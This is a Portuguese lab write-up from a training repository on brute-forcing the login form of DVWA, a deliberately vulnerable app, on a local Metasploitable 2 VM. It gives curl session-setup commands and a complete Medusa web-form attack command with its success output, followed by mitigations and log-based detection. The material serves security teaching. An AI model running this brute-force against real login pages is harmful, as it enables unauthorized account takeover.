



# 05 — DVWA: força bruta em formulário web

## O alvo

O DVWA (Damn Vulnerable Web Application) é uma aplicação PHP/MySQL **intencionalmente vulnerável**, usada para treinar segurança web. No Metasploitable 2, fica em:

```text
http://192.168.56.102/dvwa/
```

Credenciais padrão:

```text
admin / password
```

## 1. Preparação da sessão

Diferente do FTP e do SMB, o formulário do DVWA exige:

1. **Login** para obter um `PHPSESSID`.
2. **Nível de segurança `low`**, para que a página de brute force fique acessível sem proteções.
3. Envio do **cookie** em todas as requisições.

### Login e cookie

```bash
curl -s -c cookies.txt http://192.168.56.102/dvwa/login.php -o /dev/null

curl -s -b cookies.txt -c cookies.txt \
  -d 'username=admin&password=password&Login=Login' \
  http://192.168.56.102/dvwa/login.php -o /dev/null

curl -s -b cookies.txt -c cookies.txt \
  -d 'security=low&seclev_submit=Submit' \
  http://192.168.56.102/dvwa/security.php -o /dev/null
```

O arquivo `cookies.txt` passa a conter:

```text
192.168.56.102  FALSE  /dvwa  FALSE  0  security   low
192.168.56.102  FALSE  /      FALSE  0  PHPSESSID  <id-da-sessao>
```

### Baseline

Antes do ataque, validamos que a credencial funciona:

```bash
curl -s -b cookies.txt \
  "http://192.168.56.102/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login"
```

Resposta:

```text
Welcome to the password protected area admin
```

Em caso de falha, a página retorna:

```text
Username and/or password incorrect.
```

Essa diferença de mensagens é justamente o que permite automatizar o ataque.



## 2. Ataque com Medusa

O módulo `web-form` automatiza formulários HTTP. Ele substitui o **primeiro campo** pelo usuário e o **segundo** pela senha.

```bash
medusa -h 192.168.56.102 \
  -U wordlists/dvwa-users.txt \
  -P wordlists/dvwa-passwords.txt \
  -M web-form \
  -m FORM:"/dvwa/vulnerabilities/brute/" \
  -m FORM-DATA:"get?username=&password=&Login=Login" \
  -m DENY-SIGNAL:"Username and/or password incorrect" \
  -m CUSTOM-HEADER:"Cookie: PHPSESSID=$SID; security=low" \
  -t 1 -f -v 4 \
  -O logs/05-dvwa-medusa.log
```

### Entendendo as opções do módulo

| Opção | Explicação |
|---|---|
| `FORM` | Caminho da página que processa o formulário |
| `FORM-DATA` | Método (`get` ou `post`) e campos enviados; usuário primeiro, senha depois |
| `DENY-SIGNAL` | Texto que aparece quando a autenticação **falha**. Se ele **não** aparecer, o Medusa marca a tentativa como sucesso |
| `CUSTOM-HEADER` | Cabeçalho extra; aqui, o cookie de sessão e o nível de segurança |
| `-v 4` | Verbosidade para acompanhar as tentativas |

> **Ponto importante:** o `DENY-SIGNAL` precisa ser exatamente o texto da aplicação. Se a aplicação redirecionar para a tela de login (sessão expirada), o sinal de falha não aparece e o Medusa pode gerar um **falso positivo**. Por isso a validação manual é obrigatória.

## 3. Resultado

```text
2026-11-09 18:06:46 ACCOUNT FOUND: [web-form] Host: 192.168.56.102
  User: admin Password: password [SUCCESS]
```

A credencial `admin:password` foi encontrada na **primeira tentativa**.





## 4. Por que funcionou?

1. **Credencial padrão** `admin:password`.
2. **Sem rate limiting** nem bloqueio após falhas.
3. **Mensagem de erro específica** (“Username and/or password incorrect.”).
4. **Nível de segurança `low`** — a aplicação é feita para ser vulnerável.
5. **Requisições GET** — usuário e senha aparecem na URL e nos logs.

## 5. Mitigações

### Preventivas

- **Rate limiting** por IP e por conta (ex.: 5 tentativas/minuto).
- **Bloqueio temporário** após N falhas.
- **MFA** para contas administrativas.
- **CAPTCHA** após poucas falhas.
- Mensagens de erro **genéricas**.
- Senhas fortes com **Argon2id** ou **bcrypt**.
- Verificação contra **listas de senhas vazadas**.
- **WAF** com regras para brute force.
- Uso de **POST + HTTPS** (nunca credenciais na URL).

### Exemplo de hash seguro em PHP

```php
// Cadastro
$hash = password_hash($senha, PASSWORD_ARGON2ID);

// Login
if (password_verify($senha_digitada, $hash_armazenado)) {
    // autenticado
}
```

### Exemplo de rate limiting (pseudo-código)

```text
chave = "login:" + ip + ":" + usuario
tentativas = redis.incr(chave)
redis.expire(chave, 900)          # janela de 15 minutos
se tentativas > 10:
    bloquear por 15 minutos
```

### Detectivas

- Monitorar picos de requisições para `/dvwa/vulnerabilities/brute/`.
- Alertar quando o mesmo IP gera muitos `200` com parâmetros `username`/`password`.
- Correlacionar com erros 401/403 e com o volume de acessos.

Exemplo de busca no log do Apache:

```bash
grep "vulnerabilities/brute" /var/log/apache2/access.log \
  | awk '{print $1}' | sort | uniq -c | sort -nr | head
```

## 6. Observação sobre o DVWA

O DVWA é **deliberadamente inseguro**. Ele nunca deve ser exposto à internet ou usado em produção. Neste laboratório, ele existe para demonstrar o ataque de forma controlada.

## Evidências

- Baseline: [`evidencias/dvwa/05-dvwa-baseline.txt`](../evidencias/dvwa/05-dvwa-baseline.txt)
- Log do Medusa: [`evidencias/dvwa/05-dvwa-medusa.log`](../evidencias/dvwa/05-dvwa-medusa.log)
- Console: [`evidencias/dvwa/05-dvwa-console.txt`](../evidencias/dvwa/05-dvwa-console.txt)
- Capturas: [`03-dvwa-login.png`](../evidencias/images/03-dvwa-login.png), [`04-dvwa-brute-sucesso.png`](../evidencias/images/04-dvwa-brute-sucesso.png) e [`09-medusa-dvwa.png`](../evidencias/images/09-medusa-dvwa.png)

---

Anterior: [04 — SMB](04-smb.md) · Voltar ao [README](../README.md) · Próximo: [06 — Mitigações](06-mitigacoes.md)
